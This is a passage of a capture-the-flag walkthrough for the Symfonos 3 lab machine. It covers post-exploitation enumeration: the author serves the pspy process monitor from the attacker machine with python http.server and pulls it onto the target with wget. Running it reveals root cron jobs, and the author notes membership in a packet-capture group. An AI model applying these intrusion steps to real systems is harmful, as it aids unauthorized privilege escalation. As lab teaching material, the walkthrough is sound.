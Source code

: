 
we will use this Monitor called [Pspy](https://github.com/DominicBreuker/pspy/releases/tag/v1.2.1) in order to find tasks executed by root. 

so you have to download it from github 
the first step when you have it in you own machine is sharing it from port 80 using python.
example

```bash
python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
192.168.100.61 - - [17/Apr/2023 16:08:00] "GET /pspy HTTP/1.1" 200 -
----------------------------------------
Exception occurred during processing of request from ('192.168.100.61', 43590)

you have to wget it from your IP in my case will be 192.168.100.53

cerberus@symfonos3:/tmp$ wget http://192.168.100.53/pspy
--2023-04-17 16:41:30--  http://192.168.100.53/pspy
Connecting to 192.168.100.53:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 3104768 (3.0M) [application/octet-stream]
Saving to: 'pspy'

pspy                                                          100%[=================================================================================================================================================>]   2.96M  --.-KB/s    in 0.03s   

2023-04-17 16:41:30 (111 MB/s) - 'pspy' saved [3104768/3104768]
```
now that we have it, we must execute it, in order to find tasks executed by root.
```bash
cerberus@symfonos3:/$ ./pspy64
```
appears something weird 
```bash
2023/04/17 17:19:01 CMD: UID=0     PID=10431  | /bin/sh -c /usr/bin/curl --silent -I 127.0.0.1 > /opt/ftpclient/statuscheck.txt 
2023/04/17 17:20:01 CMD: UID=0     PID=10433  | /usr/sbin/CRON -f 
2023/04/17 17:20:01 CMD: UID=0     PID=10432  | /usr/sbin/cron -f 
2023/04/17 17:20:01 CMD: UID=0     PID=10434  | /usr/sbin/CRON -f 
2023/04/17 17:20:01 CMD: UID=0     PID=10435  | /usr/sbin/CRON -f 
2023/04/17 17:20:01 CMD: UID=0     PID=10437  | /bin/sh -c /usr/bin/python2.7 /opt/ftpclient/ftpclient.py
```
according with pspy theres an schedule cronTab execute every 3 minutes so let's check it.
```bash
cerberus@symfonos3:/tmp$ ls -l /opt/ftpclient/ftpclient.py
ls: cannot access '/opt/ftpclient/ftpclient.py': Permission denied
```
but it appears locked because i don't belong to this group called hades.

```bash
cerberus@symfonos3:/tmp$ ls -l /opt/          
total 4
drwxr-x--- 2 root hades 4096 Apr  6  2020 ftpclient
```
seems that we belong to a group that is able to capture traffic because of "pcap".
- ```-cerberus@symfonos3:/tmp$ id
uid=1001(cerberus) gid=1001(cerberus) groups=1001(cerberus),33(www-data),1003(pcap)```
